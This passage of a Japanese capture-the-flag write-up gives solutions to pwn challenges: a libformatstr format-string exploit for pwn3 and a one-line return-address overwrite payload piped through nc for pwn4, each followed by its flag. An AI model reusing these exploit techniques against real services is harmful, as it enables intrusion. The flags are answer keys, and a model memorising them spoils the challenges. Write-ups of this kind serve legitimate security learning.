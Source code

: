 ```
gigem{D34D_FUNC_R1S1NG}
```

## [pwn 150] pwn3

```python
from libformatstr import FormatStr
p = FormatStr()
p[0x804a01c] = 0x80485be
print p.payload(4)
```

`python s.py | nc pwn.ctf.tamu.edu 4323` でフラグが得られました。

```
gigem{F0RM@1NG_1S_H4RD}
```

## [pwn 200] pwn4

`echo -en "AAAAAAAAAAAAAAAA\x90\x83\x04\x08BBBB\x28\xa0\x04\x08" | nc web.ctf.tamu.edu 4324`

```
gigem{R3TURN_0R13NT3D_PR0F1T}
```
